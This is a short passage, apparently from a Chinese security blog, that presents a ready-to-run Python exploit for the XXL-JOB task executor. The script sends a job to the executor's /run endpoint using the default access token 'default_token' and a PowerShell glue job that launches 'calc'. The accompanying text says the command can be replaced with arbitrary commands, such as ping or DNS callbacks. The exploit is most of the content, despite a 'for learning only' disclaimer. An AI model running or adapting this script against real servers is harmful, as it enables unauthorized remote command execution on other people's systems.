[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172916-7541fc16-7a2b-1.png)

成功图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173454-3eae6fc6-7a2c-1.png)

# EXP仅供学习使用！！！！！！！！！！

```plain
import requests
import argparse
def exp(url):
    headers = {'X-Requested-With': 'XMLHttpRequest',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'Accept-Encoding': 'gzip, deflate',
               "Xxl-Job-Access-Token":"default_token"}
    data = '''{
  "jobId": 123,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 1,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime":'1586699003758',
  "broadcastIndex": 0,
  "broadcastTotal": 0
}'''

    response = requests.post(url=url+"/run",headers=headers,data=data)
    if response.status_code == 200:
        print("200成功")
    else:
        print("失败\t 尝试代理")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('ip', nargs='*')
    args = parser.parse_args()
    url = 'http://'+args.ip[0]
    exp(url)
```

glueSource是可以替换成自己的命令包括ping dns  
glueType根据系统
